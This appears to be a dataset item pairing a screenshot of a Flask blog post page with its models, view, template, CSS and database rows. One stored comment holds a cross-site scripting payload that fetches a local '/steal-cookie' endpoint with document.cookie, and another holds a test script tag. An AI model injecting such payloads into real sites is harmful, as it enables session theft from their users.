
Screenshot of /posts/11 (signed in) with the database file from the repository.
### app.py (models this page shows)
class Post(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    title = db.Column(db.String(100), nullable=False)
    content = db.Column(db.Text, nullable=False)

class Comment(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    post_id = db.Column(db.Integer, db.ForeignKey('post.id'), nullable=False)
    content = db.Column(db.Text, nullable=False)

### app.py (the view, shortened to what this page needs)
@app.route('/posts/<int:post_id>', methods=['GET', 'POST'])
def post_detail(post_id):
    post = Post.query.get_or_404(post_id)
    comments = Comment.query.filter_by(post_id=post_id).all()
    return render_template('post.html', post=post, comments=comments)

### templates/post.html
{% extends "layout.html" %}
{% block content %}
<div class="card shadow-sm my-4" style="border: none;">
    <div class="card-body" style="background-color: #f8f9fa; border-radius: 10px;">
        <h2 class="card-title" style="color: #007bff;">{{ post.title }}</h2>
        <p>{{ post.content }}</p>
    </div>
</div>
<hr>
<h3 class="my-4">Comments</h3>
{% if comments %}
<ul class="list-group">
    {% for comment in comments %}
    <li class="list-group-item shadow-sm" style="border-radius: 10px;">{{ comment.content}}</li>
    {% endfor %}
</ul>
{% else %}
<p>No comments yet. Be the first to comment!</p>
{% endif %}
<hr>
<h4 class="my-4">Add a Comment</h4>
<form method="POST">
    <div class="form-group">
        <textarea class="form-control shadow-sm" name="content" rows="3" placeholder="Enter your comment" style="border-radius: 8px;"></textarea>
    </div>
    <button type="submit" class="btn btn-primary btn-block" style="border-radius: 8px;">Submit Comment</button>
</form>
{% endblock %}

### static/styles.css (style rules this page uses)
body { background-color: #f0f2f5; font-family: Arial, sans-serif; }
h1, h2 { color: #007bff; }
.card { background: #fff; box-shadow: 0px 0px 10px rgba(0,0,0,0.1); padding: 20px; border-radius: 5px; transition: background-color 0.3s ease; }
.btn { display: inline-block; padding: 10px 20px; text-align: center; text-decoration: none; background-color: #007bff; color: #fff; border-radius: 5px; margin-top: 10px; transition: background-color 0.3s ease; }
.form-control { padding: 10px; margin: 10px 0; border: 1px solid #ccc; border-radius: 5px; }

### rows the page displays
Post: title "test 3", content "content 1"
Comment: content "<script> alert('XSS Attack Triggered'); fetch('http://127.0.0.1:5001/steal-cookie?cookie=' + document.cookie); </script>"
Comment: content "<script> alert(\"hi\") <script>"
